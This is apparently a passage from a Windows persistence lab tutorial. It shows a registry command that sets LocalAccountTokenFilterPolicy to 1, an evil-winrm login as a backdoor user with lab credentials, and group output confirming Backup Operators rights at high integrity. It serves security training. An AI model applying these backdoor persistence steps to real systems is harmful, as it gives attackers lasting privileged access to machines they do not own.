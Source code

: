 To be able to regain administration privileges from your user, we'll have to disable LocalAccountTokenFilterPolicy by changing the following registry key to 1:

```

Command Prompt

C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1

        


```

Once all of this has been set up, we are ready to use our backdoor user. First, let's establish a WinRM connection and check that the Backup Operators group is enabled for our user:

```

AttackBox

user@AttackBox$ evil-winrm -i 10.10.6.15 -u thmuser1 -p Password321
        
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288

        


```
